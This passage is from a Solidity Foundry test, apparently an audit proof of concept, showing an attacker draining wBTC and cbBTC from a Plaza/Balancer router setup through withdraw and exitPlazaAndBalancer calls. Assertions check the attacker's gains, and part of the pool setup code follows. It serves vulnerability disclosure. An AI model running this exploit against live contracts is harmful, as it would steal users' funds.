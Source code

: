 ```solidity
        // As a result, only 0.1 balBTC is deposited to PreDeposit contract, 4.9 balBTC remains in the BalancerRouter contract.

        // Step 4: The attacker withdraws balBTC from PreDeposit contract
        vm.startPrank(attacker);
        btcPreDeposit.withdraw(9.9e18);
        vm.stopPrank();

        // Step 5: The attacker drains BTC using ETH pool, 4.9 balETH = 147 ETH-BOND, because 1 balETH = $3000, 1 ETH-BOND = $100
        vm.startPrank(attacker);

        amounts[0] = 4.9e8;
        amounts[1] = 4.9e8;
        ethPool.bondToken().approve(address(btcBalancerRouter), type(uint256).max);

        btcBalancerRouter.exitPlazaAndBalancer(
            bytes32(uint256(0x2)),
            address(ethPool),
            assets,
            147e18,
            amounts,
            bytes(""),
            Pool.TokenType.BOND,
            4.9e18
        );
        vm.stopPrank();

        // Expected assets for Attacker: 5.1 balETH + 10 balBTC + 4.9 wBTC + 4.9 cbBTC
        assertEq(balETH.balanceOf(attacker), 5.1e18);
        assertEq(balBTC.balanceOf(attacker), 10e18);
        assertEq(wBTC.balanceOf(attacker), 4.9e8);
        assertEq(cbBTC.balanceOf(attacker), 4.9e8);
    }

    function _setupContracts() private {
        // Setup Params
        btcParams = PoolFactory.PoolParams({
            fee: 0,
            reserveToken: address(balBTC),
            couponToken: address(USDC),
            distributionPeriod: 90 days,
            sharesPerToken: 2.5e6, // 2.5 USDC
            feeBeneficiary: address(0)
        });

        ethParams = PoolFactory.PoolParams({
            fee: 0,
            reserveToken: address(balETH),
            couponToken: address(USDC),
            distributionPeriod: 90 days,
            sharesPerToken: 2.5e6, // 2.5 USDC
            feeBeneficiary: address(0)
        });

        vm.startPrank(governance);

        address contractDeployer = address(new Deployer());
        oracleFeeds = new OracleFeeds();

        address poolBeacon = address(new UpgradeableBeacon(address(new Pool()), governance));
        address bondBeacon = address(new UpgradeableBeacon(address(new BondToken()), governance));
```